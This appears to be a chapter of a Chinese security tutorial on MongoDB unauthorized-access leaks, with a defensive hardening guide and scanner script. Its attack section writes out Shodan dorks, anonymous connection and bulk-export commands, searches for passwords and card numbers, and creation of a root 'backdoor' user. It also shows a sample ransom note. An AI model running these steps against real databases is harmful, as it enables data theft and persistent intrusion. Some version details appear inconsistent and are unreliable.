

## 案例六：MongoDB未授权访问导致数据泄露

### 背景与威胁态势

MongoDB自2009年发布以来，凭借其灵活的文档模型和横向扩展能力，迅速成为最流行的NoSQL数据库之一。然而，其默认配置的安全缺陷导致了大规模数据泄露事件频发。2016年至2017年间，安全研究人员发现超过**27,000个**MongoDB实例暴露在公网上，其中约**600个**遭到勒索攻击，攻击者擦除数据并要求支付比特币赎金。

这一安全危机的根源在于MongoDB 2.6及更早版本的默认配置：**绑定地址为0.0.0.0（监听所有网络接口）且不启用认证**。即使是MongoDB 3.0+引入了SCRAM-SHA-1认证机制，默认配置仍然存在安全隐患——如果没有显式创建管理员用户，数据库依然可以被匿名访问。

#### MongoDB认证机制演进

| 版本 | 默认认证 | 认证机制 | 安全改进 |
|------|---------|---------|---------|
| 2.6及更早 | 无 | MONGODB-CR（挑战-响应） | 无默认认证 |
| 3.0 | 无 | SCRAM-SHA-1 | 引入默认绑定localhost |
| 3.6 | 无（localhost可匿名） | SCRAM-SHA-1 | 绑定localhost，但创建用户后自动启用认证 |
| 4.0 | 本地可匿名 | SCRAM-SHA-256（可选） | 支持X.509证书认证 |
| 5.0+ | 需显式配置 | SCRAM-SHA-256 | 增强LDAP/Kerberos集成 |

### 攻击过程详解

#### 第一阶段：信息收集

攻击者使用网络空间搜索引擎识别暴露的MongoDB实例：

```bash
# 使用Shodan搜索暴露的MongoDB实例
# Shodan dork：搜索27017端口且MongoDB服务已识别
shodan search "product:MongoDB port:27017" --fields ip_str,port,org

# 使用ZoomEye进行类似搜索
# ZoomEye dork
zoomeye search "port:27017 +service:MongoDB"

# 使用Censys搜索
censys search "services.port=27017 AND services.service_name=MONGODB"

# 使用nmap进行主动扫描（仅限授权测试）
nmap -sV -p 27017 --script mongodb-info <target_range>
```

**Shodan搜索结果解读**：
- `product:MongoDB`：标识服务类型
- `port:27017`：MongoDB默认端口
- `org`：所属组织（可用于定向攻击）
- `version`：MongoDB版本（影响攻击策略）

#### 第二阶段：连接与探测

确认目标可访问后，使用MongoDB客户端连接：

```bash
# 基础连接测试（无认证）
mongosh --host <target_ip> --port 27017

# 或使用旧版客户端
mongo --host <target_ip> --port 27017

# 连接成功后，执行基础探测命令
# 检查服务器状态
db.serverStatus()

# 列出所有数据库
show dbs

# 获取服务器版本信息
db.version()

# 检查当前连接信息
db.runCommand({connectionStatus: 1})

# 检查是否有认证要求
db.runCommand({getParameter: 1, authenticationMechanisms: 1})
```

**连接成功标志**：如果返回MongoDB shell提示符（如 `>` 或 `test>`），且上述命令返回有效数据，则确认存在未授权访问漏洞。

#### 第三阶段：数据枚举与提取

```bash
# 列出所有数据库
show dbs

# 切换到目标数据库（以admin数据库为例）
use admin

# 列出当前数据库的所有集合
show collections

# 查看集合结构和样本数据
db.system.users.find().pretty()  # 用户凭证（如果存在）
db.system.version.find().pretty()  # 版本信息

# 切换到业务数据库
use myapp_db

# 列出业务集合
show collections

# 导出用户数据
db.users.find().pretty()

# 统计记录数量
db.users.count()

# 导出数据到文件（需要本地mongoexport工具）
mongoexport --host <target_ip> --port 27017 \
  --db myapp_db --collection users \
  --out users_dump.json

# 批量导出所有集合
for collection in $(mongosh --quiet --host <target_ip> --port 27017 --eval "use myapp_db; db.getCollectionNames()" | tr -d '[],"'); do
  mongoexport --host <target_ip> --port 27017 \
    --db myapp_db --collection "$collection" \
    --out "${collection}.json"
done
```

#### 第四阶段：后渗透操作

获取数据库访问权限后，攻击者可能进行更深层次的渗透：

```bash
# 1. 创建后门管理员用户
use admin
db.createUser({
  user: "backdoor",
  pwd: "your_password123!",
  roles: [{role: "root", db: "admin"}]
})

# 2. 检查是否有GridFS存储（可能包含文件）
use myapp_db
db.fs.files.find().pretty()
db.fs.chunks.find().limit(5).pretty()

# 3. 搜索敏感信息模式
# 搜索包含"password"字段的集合
db.getCollectionNames().forEach(function(coll) {
  var sample = db[coll].findOne();
  if (sample && JSON.stringify(sample).toLowerCase().includes("password")) {
    print("敏感集合: " + coll);
  }
});

# 4. 搜索信用卡号码模式
db.transactions.find({
  cardNumber: {$regex: /^4[0-9]{12}(?:[0-9]{3})?$/}  # Visa卡模式
}).pretty();

# 5. 检查oplog（如果启用了副本集）
use local
db.oplog.rs.find().sort({$natural: -1}).limit(10).pretty()
```

### 实战案例分析

#### 案例一：2016年MongoDB勒索攻击事件

2016年12月，安全研究人员Victor Gevers发现大量MongoDB实例遭到攻击。攻击模式如下：

1. **扫描**：使用Shodan识别暴露的MongoDB实例
2. **连接**：匿名连接到目标数据库
3. **备份**：攻击者声称已备份数据（实际可能未备份）
4. **擦除**：删除原始数据
5. **勒索**：创建名为 `WARNING` 的集合，要求支付0.2比特币赎金

**受影响规模**：
- 2016年12月：约12,000个实例被攻击
- 2017年1月：增长至约27,000个实例
- 勒索金额：0.1-1比特币不等

**真实勒索信息示例**：
```json
{
  "_id": "WARNING",
  "content": "Your DB is backed up at our server. To restore your DB, send 0.5 BTC to Bitcoin address: 1J5yMeKRJzVzRVTM7LrsLxJyMxZ8bX2aPZ. After payment, contact us at restore_database@protonmail.com with your server IP."
}
```

#### 案例二：某电商平台数据泄露

2019年，某跨境电商平台因MongoDB配置不当导致3800万用户数据泄露：

**泄露数据类型**：
- 用户名、邮箱、手机号
- 收货地址（含经纬度坐标）
- 订单历史记录
- 部分支付令牌（未加密存储）

**攻击路径**：
```text
Shodan扫描 → 识别27017端口 → 匿名连接 → 
枚举users集合 → 导出数据 → 暗网出售
```

**影响评估**：
- 直接损失：GDPR罚款约200万欧元
- 间接损失：用户流失率约15%，股价下跌8%
- 修复成本：约50万美元（含安全审计、系统重构）

#### 案例三：医疗记录数据库暴露

2020年，某医疗研究机构的MongoDB实例暴露了超过100万条患者记录，包含：
- 姓名、身份证号
- 诊断记录、处方信息
- 保险信息
- 基因检测数据

**法律后果**：违反HIPAA法规，罚款150万美元，负责人被追究刑事责任。

### 漏洞原理深度解析

#### MongoDB默认配置缺陷

MongoDB的配置文件 `mongod.conf` 默认存在以下问题：

```yaml
# 默认配置（存在安全隐患）
net:
  port: 27017
  bindIp: 0.0.0.0  # 监听所有接口！
  
security:
  authorization: disabled  # 认证禁用！
```

**关键配置项解析**：

1. **bindIp: 0.0.0.0**
   - 含义：监听所有网络接口，包括公网IP
   - 风险：任何能访问该端口的客户端均可连接
   - 正确配置：`bindIp: 127.0.0.1,10.0.0.1`（仅本地和内网）

2. **authorization: disabled**
   - 含义：不验证用户身份
   - 风险：匿名用户可执行任意操作
   - 正确配置：`authorization: enabled`

#### 认证绕过场景

即使启用了认证，以下配置仍可能导致未授权访问：

```javascript
// 场景1：admin数据库无管理员用户
use admin
show users  // 返回空

// 场景2：local数据库匿名可读（影响副本集）
use local
db.oplog.rs.find()  // 可能返回操作日志

// 场景3：启用--noauth参数启动
mongod --noauth  // 显式禁用认证
```

### 完整防御方案

#### 第一层：网络隔离

```bash
# 1. 绑定内网地址
# /etc/mongod.conf
net:
  port: 27017
  bindIp: 127.0.0.1,10.0.0.100  # 仅本地和内网

# 2. 配置iptables防火墙
iptables -A INPUT -p tcp --dport 27017 -s 10.0.0.0/8 -j ACCEPT
iptables -A INPUT -p tcp --dport 27017 -j DROP

# 3. 使用云安全组（以AWS为例）
aws ec2 authorize-security-group-ingress \
  --group-id sg-xxxxx \
  --protocol tcp \
  --port 27017 \
  --source-group sg-yyyyy  # 仅允许应用服务器安全组
```

#### 第二层：认证加固

```javascript
// 1. 创建超级管理员
use admin
db.createUser({
  user: "admin",
  pwd: "Complexyour_password!2024",
  roles: [
    { role: "userAdminAnyDatabase", db: "admin" },
    { role: "readWriteAnyDatabase", db: "admin" }
  ]
});

// 2. 创建应用专用用户（最小权限原则）
use myapp_db
db.createUser({
  user: "myapp_user",
  pwd: "AppSpecificP@ss!2024",
  roles: [
    { role: "readWrite", db: "myapp_db" }
  ]
});

// 3. 创建只读用户（用于报表查询）
db.createUser({
  user: "readonly_user",
  pwd: "ReadOnlyP@ss!2024",
  roles: [
    { role: "read", db: "myapp_db" }
  ]
});

// 4. 启用认证
// 修改配置文件
security:
  authorization: enabled
```

#### 第三层：传输加密

```yaml
# /etc/mongod.conf TLS配置
net:
  ssl:
    mode: requireSSL
    PEMKeyFile: /etc/ssl/mongodb/server.pem
    CAFile: /etc/ssl/mongodb/ca.pem
    allowConnectionsWithoutCertificates: false

# 客户端连接
mongosh --tls \
  --tlsCertificateKeyFile /path/to/client.pem \
  --tlsCAFile /path/to/ca.pem \
  --host mongodb.example.com
```

#### 第四层：审计与监控

```yaml
# 启用审计日志（Enterprise版）
auditLog:
  destination: file
  format: JSON
  path: /var/log/mongodb/audit.json
  filter: '{ atype: { $in: ["authenticate", "authCheck"] } }'
```

```javascript
// 监控可疑查询
db.setProfilingLevel(1, { slowms: 100 });

// 查询慢日志
db.system.profile.find().sort({ts: -1}).limit(10).pretty();

// 监控失败的认证尝试
db.adminCommand({ getLog: "global" })
```

### 自动化检测工具

#### 工具一：MongoDB安全扫描脚本

```python
#!/usr/bin/env python3
"""MongoDB未授权访问检测工具"""

import pymongo
import sys
from datetime import datetime

def scan_mongodb(host, port=27017, timeout=5000):
    """扫描MongoDB实例安全性"""
    result = {
        "host": host,
        "port": port,
        "vulnerable": False,
        "details": {}
    }
    
    try:
        # 尝试无认证连接
        client = pymongo.MongoClient(
            host, port,
            serverSelectionTimeoutMS=timeout,
            connectTimeoutMS=timeout
        )
        
        # 测试连接
        client.server_info()
        result["connected"] = True
        
        # 检查是否需要认证
        try:
            db_list = client.list_database_names()
            result["vulnerable"] = True
            result["details"]["databases"] = db_list
            result["details"]["total_dbs"] = len(db_list)
            
            # 枚举集合和文档数
            collections_info = {}
            for db_name in db_list:
                if db_name in ['local', 'config']:
                    continue
                db = client[db_name]
                try:
                    colls = db.list_collection_names()
                    collections_info[db_name] = {
                        "collections": colls,
                        "count": len(colls)
                    }
                except Exception as e:
                    collections_info[db_name] = {"error": str(e)}
            
            result["details"]["collections"] = collections_info
            
        except pymongo.errors.OperationFailure as e:
            if "not authorized" in str(e):
                result["vulnerable"] = False
                result["details"]["auth_required"] = True
            else:
                result["details"]["error"] = str(e)
        
        # 获取服务器信息
        server_info = client.server_info()
        result["details"]["version"] = server_info.get("version")
        result["details"]["os"] = server_info.get("os")
        
        client.close()
        
    except pymongo.errors.ServerSelectionTimeoutError:
        result["connected"] = False
        result["details"]["error"] = "Connection timeout"
    except Exception as e:
        result["details"]["error"] = str(e)
    
    return result

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 mongodb_scanner.py <host> [port]")
        sys.exit(1)
    
    host = sys.argv[1]
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 27017
    
    print(f"[*] Scanning {host}:{port}...")
    result = scan_mongodb(host, port)
    
    print(f"\n[+] Connection: {'Success' if result.get('connected') else 'Failed'}")
    if result.get("vulnerable"):
        print("[!] VULNERABLE: Unauthorized access possible!")
        print(f"[*] Databases found: {result['details'].get('total_dbs', 0)}")
        for db_name, info in result['details'].get('collections', {}).items():
            print(f"    - {db_name}: {info.get('count', 0)} collections")
    else:
        print("[+] Secure: Authentication required")
```

#### 工具二：批量扫描与报告

```bash
#!/bin/bash
# batch_scan.sh - 批量扫描MongoDB实例

TARGET_FILE="$1"
OUTPUT_DIR="mongodb_scan_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$OUTPUT_DIR"

while IFS= read -r target; do
    echo "[*] Scanning $target..."
    python3 mongodb_scanner.py "$target" > "$OUTPUT_DIR/${target}.txt" 2>&1
    
    # 检查是否发现漏洞
    if grep -q "VULNERABLE" "$OUTPUT_DIR/${target}.txt"; then
        echo "[!] $target - VULNERABLE"
        echo "$target" >> "$OUTPUT_DIR/vulnerable_hosts.txt"
    else
        echo "[+] $target - Secure"
    fi
done < "$TARGET_FILE"

# 生成报告
echo "# MongoDB安全扫描报告" > "$OUTPUT_DIR/report.md"
echo "## 扫描时间: $(date)" >> "$OUTPUT_DIR/report.md"
echo "## 发现漏洞主机:" >> "$OUTPUT_DIR/report.md"
cat "$OUTPUT_DIR/vulnerable_hosts.txt" >> "$OUTPUT_DIR/report.md"
```

### 常见误区与纠正

| 误区 | 事实 | 正确做法 |
|------|------|---------|
| 绑定127.0.0.1就绝对安全 | Docker容器内127.0.0.1可能暴露 | 同时配置防火墙和安全组 |
| 启用认证后无需其他措施 | 认证可被暴力破解 | 结合网络隔离和限流 |
| MongoDB Atlas完全托管无需操心 | 用户仍需配置网络访问和权限 | 定期审查Atlas安全配置 |
| 副本集自动加密数据 | 副本集仅提供冗余，不加密 | 启用TLS和字段级加密 |
| 默认端口27017必须使用 | 修改端口可减少自动化扫描 | 使用非标准端口（但不能依赖此作为安全措施）|

### 进阶内容：MongoDB安全架构设计

#### 零信任架构下的MongoDB部署



#### 字段级加密（FLE）

MongoDB 4.2+支持客户端字段级加密，即使数据库管理员也无法查看敏感字段：

```javascript
const { MongoClient, ClientEncryption } = require('mongodb-client-encryption');
const { Binary } = require('mongodb');

// 配置加密
const encryptionOpts = {
  keyVaultNamespace: "encryption.__keyVault",
  kmsProviders: {
    aws: {
      accessKeyId: process.env.AWS_ACCESS_KEY_ID,
      secretAccessKey: process.env.AWS_SECRET_ACCESS_KEY
    }
  }
};

// 创建数据加密密钥
const encryption = new ClientEncryption(client, encryptionOpts);
const keyId = encryption.createDataKey("aws", {
  masterKey: {
    key: "arn:aws:kms:us-east-1:123456789:key/abcd-1234",
    region: "us-east-1"
  }
});

// 插入加密数据
await client.db("myapp").collection("users").insertOne({
  name: "张三",
  // 加密字段：即使数据库泄露也无法读取
  ssn: encryption.encrypt("110101199001011234", {
    algorithm: "AEAD_AES_256_CBC_HMAC_SHA_512-Deterministic",
    keyId: keyId
  })
});
```

### 安全检查清单

在部署MongoDB到生产环境前，逐项检查：

- [ ] **网络层**
  - [ ] bindIp仅配置内网地址
  - [ ] 防火墙规则限制访问来源
  - [ ] 云安全组配置正确
  - [ ] 禁用公网直接访问

- [ ] **认证层**
  - [ ] 创建管理员用户
  - [ ] 创建应用专用用户（最小权限）
  - [ ] 启用authorization
  - [ ] 定期轮换密码

- [ ] **传输层**
  - [ ] 启用TLS/SSL
  - [ ] 配置证书验证
  - [ ] 禁用不安全的TLS版本

- [ ] **存储层**
  - [ ] 启用存储引擎加密
  - [ ] 敏感字段使用FLE
  - [ ] 定期备份并加密

- [ ] **监控层**
  - [ ] 启用审计日志
  - [ ] 配置慢查询日志
  - [ ] 设置异常告警
  - [ ] 定期审查访问日志

### 总结

MongoDB未授权访问漏洞的根本原因在于**默认配置过于宽松**和**运维人员安全意识不足**。防御需要采用纵深防御策略：

1. **网络隔离**是第一道防线，确保数据库不直接暴露在公网
2. **强认证机制**是核心保障，遵循最小权限原则
3. **传输加密**防止中间人攻击和数据窃听
4. **持续监控**是最后的安全网，及时发现异常访问

记住：**安全不是一次性配置，而是持续的过程**。定期审计、渗透测试和安全培训是维护MongoDB安全的关键。

***
